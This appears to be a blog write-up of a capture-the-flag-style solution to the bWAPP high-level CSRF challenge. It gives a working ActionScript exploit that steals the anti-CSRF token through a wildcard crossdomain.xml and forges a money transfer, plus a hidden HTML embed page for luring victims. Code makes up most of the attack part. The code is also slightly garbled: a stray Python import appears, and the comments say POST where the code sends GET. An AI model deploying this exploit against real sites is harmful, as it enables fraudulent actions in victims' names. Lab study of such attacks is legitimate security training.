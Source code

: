 ```yaml
---
title: Bypass Cross Site Request Forgery Protection
tags: ["Web Attack", "SWF", "Exploit", "Hack", "Web Exploit"]
date: 2017-12-01
cover: "/media/csrf-Bypass.gif"
---
```


## Attack

Cross Site Request Forgery (CSRF) is an attack where a malicious entity tricks a victim into performing actions on behalf of the attacker. The impact of the attack would depend on the level of authorization that the victim who is being exploited is having into the system.
The most popular implementation to prevent Cross-site Request Forgery (CSRF), is to make use of a nonce that is associated with a particular user and it's current view model of the web page. This token is called a anti-CSRF Token or a Synchronizer Token.
In bWapp (BeeBox) CSRF level high challenge, the attacker need to bypass this token in order to complete this challenge.  


## Script

```ActiveX
// csrfBypass.as

import socket,ssl

// BypassCSRFtransferMoney bWaPP
// Author: Vishal_alt
// BwApp Level:High CSRF challenge

package {
 import flash.display.Sprite;
 import flash.events.*;
 import flash.net.URLRequestMethod;
 import flash.net.URLRequest;
 import flash.net.URLLoader;

 public class csrfBypass extends Sprite {
  public function csrfBypass() {
   // Target URL from where the data is to be retrieved
   var readFrom:String = "http://mybuggy.app/bWAPP/csrf_2.php";
   var readRequest:URLRequest = new URLRequest(readFrom);
   var getLoader:URLLoader = new URLLoader();
   getLoader.addEventListener(Event.COMPLETE, eventHandler);
   try {
    getLoader.load(readRequest);
   } catch (error:Error) {
    trace("Error loading URL: " + error);
   }
  }


  private function eventHandler(event:Event):void {
   // This assigns the reponse from the first 
   // request to "reponse". The antiCSRF token is
   // somwhere in this reponse
   var response:String = event.target.data;

   // This line looks for the line in the response 
   //that contains the CSRF token
   var CSRF:Array = response.match(/token.*/);

   // This line extracts the value of the CSRF token, 
   // and assigns it to "token"
   var token:String = CSRF[0].split("\"")[4];

   // These next two lines create the prefix and the 
   // suffix for the POST request
   var prefix:String = "token="
   var suffix:String = "&account=123-45678-90&amount=900&action=transfer"

   // This section sets up a new URLRequest object and
   // sets the method to post   
   var sendTo:String = "http://mybuggy.app/bWAPP/csrf_2.php?"
   var sendRequest:URLRequest = new URLRequest(sendTo);
   sendRequest.method = URLRequestMethod.GET;

   // This next line sets the data portion of the GET
   // request to the "prefix" + "token" + "suffix"
   sendRequest.data = prefix.concat(token,suffix)
   
   // Time to create the URLLoader object and send the 
   // POST request containing the CSRF token
   var sendLoader:URLLoader = new URLLoader();
   try {
    sendLoader.load(sendRequest);
   	   } 
   catch (error:Error) {
    trace("Error loading URL: " + error);
   	  }
    }
  }
}

```

Using the above active script we can generate a SWF flash file. This flash file can easily help in bypassing the CSRF protection because the target site crossdomain.xml allows all with *  ;-) . SWF flash file will send a background request once accessed by the victim, through his (victim) web browser (Yes you need to lure victim, call Mr. Robot if you need help :D) to the target domain and will fetch the anti-CSRF token via first request. Onces the token is fetched it will send another request to perform an authorized action in behalf of the victim user which in this case is money transfer.

Now all we need to do is create a malicious HTML page and embedd this SWF in it and entice victim to just open it in order to our mount the bypass attack.


```HTML
<!--This is byPassCSRF.html-->

<html>

<object width="1" height="1">
    <param name="movie" value="csrfBypass.swf">
    <embed src="csrfBypass.swf" width="100" height="100">
    </embed>
</object>

</html>


```




## Exploit


![ XSRF Protection Bypass](/media/csrf-Bypass.gif "Flash Exploit in Action!!")





##### **References**:

1. [CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
2. [bWapp](https://sourceforge.net/projects/bwapp/)

